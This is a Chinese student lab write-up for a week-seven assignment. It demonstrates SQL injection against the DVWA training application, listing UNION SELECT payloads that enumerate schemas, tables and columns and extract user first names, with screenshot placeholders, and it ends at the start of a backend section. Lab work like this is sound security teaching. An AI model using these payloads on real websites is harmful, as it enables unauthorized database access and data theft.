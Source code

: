 ### 第七周作业实验

##### 1.通过前端验证的方法判断DVWA中的注入点

输入1‘报错，大概率存在SQL注入漏洞
![image-20241024094559491](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024094559491.png)

1 and 1=1，能查出来，存在注入
![image-20241024095019715](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024095019715.png)

1 and 1=2,可以执行且可以查出结果，有可能是网站对输入进行了特殊处理，故根据隐式转换，还是能查出结果，可以判断为数字型注入

![image-20241024100536773](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024100536773.png)

##### 2.在前端使用Union注入实现“dvwa数据库-user表-字段-first_name数据”的注入过程

先判断列数,输入2还可以，输入3就报错了，可判断列数为2列
![image-20241024104624445](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024104624445.png)

![image-20241024104725218](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024104725218.png)

判断有无显示位：1' union all select 1,2#
![image-20241024105032423](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024105032423.png)

若页面显示位不足： -1' union all select 1,2#,使左边为空值，腾出位置
![image-20241024105349118](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024105349118.png)

查询数据库名和用户名：1' union all select database(),user()#,若显示位不够，调换查询参数位置
![image-20241024105735309](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024105735309.png)

(补充）解决页面显示位不足：查询结果合并位1行，1' union select 1,group_concat(user) from users#
![image-20241024110958392](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024110958392.png)

爆库名：1' union select schema_name,1 from information_schema.schemata#
![image-20241024122251943](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024122251943.png)

爆表名：1' union select table_name,1 from information_schema.tables where table_schema=database()#
![image-20241024121754036](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024121754036.png)

爆字段名：1' union select column_name,1 from information_schema.columns where table_schema='dvwa' and table_name='users
![image-20241024123303493](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024123303493.png)

拿到first_name：1' union all select first_name,1 from users#
![image-20241024124332930](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024124332930.png)

##### 3.在后端使用Union注入实现“dvwa数据库-user表-字段-first_name数据”的注入过程

先展示数据库名：show databases;

